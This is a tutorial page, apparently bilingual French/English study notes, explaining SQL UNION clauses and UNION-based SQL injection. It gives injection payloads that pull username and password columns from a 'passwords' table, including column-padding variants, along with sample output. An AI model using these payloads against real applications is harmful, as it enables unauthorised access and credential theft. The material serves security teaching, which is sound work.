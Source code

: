 # Union Clause

***

### <mark style="color:red;">Union</mark>

* La clause **UNION** combine les résultats de plusieurs `SELECT`.
* Avec une injection `UNION`, on peut **extraire des données** de plusieurs tables et bases.
* Exemple : explorer le contenu de la table `ports`.

```shell-session
mysql> SELECT * FROM ports;
```

Next, let us see the output of the `ships` tables:

```shell-session
mysql> SELECT * FROM ships;
```

Now, let us try to use `UNION` to combine both results:

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;
```

* `UNION` combine les résultats de plusieurs `SELECT` en un seul.
* Les lignes des tables `ports` et `ships` apparaissent ensemble dans le résultat.
* **Important** : les colonnes sélectionnées doivent avoir le **même type de données** à chaque position.

***

### <mark style="color:red;">Even Columns</mark>

* Une instruction `UNION` ne fonctionne que si les `SELECT` ont **le même nombre de colonnes**.
* Si les colonnes diffèrent, une **erreur** est générée.

```shell-session
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

For example, if the query is:

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

{% code fullWidth="true" %}
```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
{% endcode %}

La requête retournera les **colonnes `username` et `password`** de la table `passwords`, à condition que la table `products` ait **deux colonnes**.

***

### <mark style="color:red;">Un-even Columns</mark>

* Si le nombre de colonnes du `SELECT` original diffère de celui que l’on veut injecter, il faut **remplir les colonnes manquantes avec des données factices**.
* Exemples de données factices :
  * **Chaîne** : `"junk"`
  * **Nombre** : `1` (pratique pour suivre les positions des colonnes)
  * **NULL** : convient à tous les types de données.
* Le type de la donnée factice doit correspondre au type attendu, sinon la requête échoue.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be:

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

This query would return:

{% code fullWidth="true" %}
```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```
{% endcode %}

